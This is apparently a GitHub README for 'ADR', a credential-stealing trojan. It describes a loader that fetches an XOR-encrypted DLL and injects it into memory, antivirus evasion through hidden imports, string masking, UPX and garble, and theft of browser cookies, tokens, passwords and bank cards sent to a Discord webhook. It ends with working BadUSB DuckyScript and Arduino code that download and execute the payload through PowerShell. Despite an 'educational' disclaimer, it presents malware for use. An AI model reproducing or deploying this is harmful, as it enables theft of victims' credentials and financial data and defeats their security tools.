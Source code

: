 # ADR 💥

ADR is a trojan that retrieves all information on the computer and all data stored in applications using chormium. It recovers cookies, tokens, passwords and saved bank cards. This malware is undetectable by Windows Defender, Chrome, Virustotal (4/71).

> ❗ This project has a strictly educational objective. It aims to provide information, advice and resources in an educational context. I want to emphasize that I do not support or encourage any malicious or damaging use of this information. Any negative or abusive interpretation goes against the educational intent of this project. As the creator of this content, I accept no responsibility for any misuse that may arise from its use.

## bADR (EXE)

bADR is the entry program that will load ADR (the DLL that contains the malware).
bADR downloads the DLL online, this DLL is encrypted in XOR so as not to be detected by the antivirus. The DLL is then decoded and then injected into the memory of the process to execute the "main" function.

* download the DLL encode in XOR
* decode the XOR
* loading the DLL into memory (without using LoadLibraryA)
* execution of the "main" function of the ADR malware


bADR uses a few tricks to avoid being detected by anti-viruses, in particular:

* hiding suspicious functions using LoadLibrary and GetProcAddress (so imports are hidden and not visible in the executable)
* the masking of character strings, the url at which the payload is located, encrypt in XOR so as not to be readable in the executable directly
* optimization of compiler parameters and compression with UPX
* to make it possible to hide the imports even more, if we do not have an executable heavier in KB, we can change the Runtime Library. Indeed, switching from Multi-threaded DLL mode (/MD) to Multi-threaded mode (/MT) hides all imports (with UPX). However, it takes about 40 KB more than the Multi-threaded DLL version.

## ADR (DLL)

ADR is compiled in DLL, encoded in XOR, then uploaded to a server to be loaded later by bADR. 
the main function is the entry point of the malware, this function aims to:

* scan Windows AppData folder for folder using Chromium file structure
* recover all cookies, tokens, passwords, local state, credit card, history and autocompletion
* find all the information on the machine used
    * MAC Address
    * Public IP
    * Processor
    * Architecture
    * Storage
    * Local Time
    * Language
    * Machine Name
* all this data is then compressed into a Zip file which will be sent to a discord webhook (obviously this data can be sent to any public server or webhook).

## gADR (EXE)

gADR is the Golang version of bADR. With this version we reached the score of 4/71 detection on virustotal. This results and largely due to the obfuscator: garble, which allowed this incredible result. The golang code does not change much from the C version, loading the DLL into memory reuses the C code from bADR and is compiled with CGO.

> why no compression with UPX?

gARD will not decompress with UPX because it is much more detectable with compression enabled. The gADR.exe pyaload is therefore heavier (5 MB).

> Compile with Garble

```cmd
@REM install it: go install mvdan.cc/garble@latest
@REM build:

build.bat
```

### Anti Virus

**bADR (EXE)**

*   ❔     Virustotal 6/70 
    * ❌     6
    * ✅     70
*   ✅     Windows Defender
*   ✅     Chrome AntiVirus
*   ✅     Manalyzer

**gADR (EXE)**

*   ❔     Virustotal 4/70 
    * ❌     4
    * ✅     70
*   ✅     Windows Defender
*   ✅     Chrome AntiVirus
*   ✅     Manalyzer


**ADR (XOR)**

*   ✅     Virustotal 72/72
*   ✅     Windows Defender
*   ✅     Chrome AntiVirus
*   ✅     Manalyzer

**ADR (DLL)**

*   ❔     Virustotal 2/70 
    * ❌     2
    * ✅     70
*   ✅     Windows Defender

### UPX compression

ADR and bADR files are compressed with UPX to reduce the size of the payload.

```
bADR.exe 15   ko => 10   ko  (Runtime Library Multi-threaded DLL /MD)
bADR.exe 114  ko => 54   ko  (Runtime Library Multi-threaded /MT)
ADR.dll  17  ko => 10.5  ko
```

### Demo

Once the malware is launched, all the information is then sent to a url. In the demo, it's a discord webhook that displays the data we collect.
This data comes from a Virustotal virtual machine that checks and analyzes the behavior of the malware.
Here is the message we receive from the webhook after the program is launched on one of these virtual machines:

![demo.png](demo.png)


### Bonus BadUSB

__Digispark Rev.3 Kickstarter with Attiny85 and USB compatible with Arduino__

  You can buy it [here](https://www.az-delivery.de/en/products/digispark-board).

> DuckyScript

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -command "(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\bADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\bADR.exe');exit"
ENTER
```

> Arduino C/C++ Code

```cpp
#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}


void setup()
{
  Keyboard.begin();
  delay(500);

  delay(1000);
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(200);
  Keyboard.print(F("powershell -command \"(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\\bADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\\bADR.exe');exit\""));

  typeKey(KEY_RETURN);

  Keyboard.end();
}

void loop() {}
```